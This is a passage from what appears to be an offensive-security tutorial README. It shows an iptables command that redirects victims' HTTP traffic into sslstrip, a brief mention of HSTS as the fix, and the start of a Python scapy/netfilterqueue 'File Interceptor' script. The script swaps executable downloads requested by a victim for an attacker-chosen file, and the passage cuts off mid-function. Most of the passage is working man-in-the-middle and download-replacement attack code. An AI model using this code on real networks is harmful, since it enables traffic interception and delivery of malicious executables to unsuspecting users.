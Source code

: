    `iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000`

__Traffic Flow:__ _victim <--> Attacker iptable queues <--> sslstrip <..> target server._


## Fix: Enable HSTS

- The browser specifies a list of websites to only load through HTTPS, hence defeating this form of attack.
- It is prevalant on popular sites like google,facebook etc.


## Previous programs modified/rewritten to support HTTPS:

### 1. File Interceptor

_[Source](https://github.com/m3rcer/Python-Hax/blob/main/File_Interceptor/README.md)_
- We changed the `sport` and `dport` definitions to match sslstrip's port definitions (port 10000).
- If an 'exe' were replaced by an 'exe' it would cause a bug where a redundant loop between the iptable queues and sslstrip would be caused. To manage it we check if the replaced 'exe' url matches the requested 'exe' in the request, and only if it dosen't the download is replaced with the new 'exe'. 


```python
#!/usr/bin/env python

import scapy.all as scapy
import netfilterqueue
import subprocess
import argparse


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-r", "--redirect-host", dest="host", help="Redirect HTTP EXE requests to this HTTPS Site/Host")
    parser.add_argument("-t", "--file-type", dest="type", help="File extension type to redirect")
    options = parser.parse_args()
    if not options.host:
        # code to handle error
        parser.error("\n[-] Please specify a valid HTTPS redirect Host,  use --help for info.")
    if not options.type:
        # code to handle error
        parser.error("\n[-] Please specify a valid file extension,  use --help for info.")
    return options

ack_list = []

def set_load(packet, load):
    packet[scapy.Raw].load = load
    # remove fields and allow scapy to autocomplete these layers
    del packet[scapy.IP].len
    del packet[scapy.TCP].chksum
    del packet[scapy.IP].chksum
    return packet



def process_packet(packet):
    # Cloning and converting to scapy packet
    scapy_packet = scapy.IP(packet.get_payload())
    # Filter for HTTP layer
    if scapy_packet.haslayer(scapy.Raw):
    # using sslstrip
```